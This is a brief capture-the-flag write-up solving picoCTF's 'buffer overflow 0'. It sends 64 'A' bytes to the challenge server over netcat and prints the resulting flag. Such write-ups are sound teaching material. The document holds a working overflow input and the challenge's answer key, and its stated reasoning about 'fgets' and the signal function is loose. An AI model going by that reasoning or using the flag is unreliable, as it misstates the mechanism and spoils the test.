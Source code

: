 # buffer overflow 0
* When encounter 'fgets,' I realize that there might be an opportunity here. Since the FLAGSIZE_MAX is set to 64, I can input 64 bytes to potentially reach the 'signal' function and get the flag.


## flag

```
python2 -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

nc saturn.picoctf.net 65443
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```


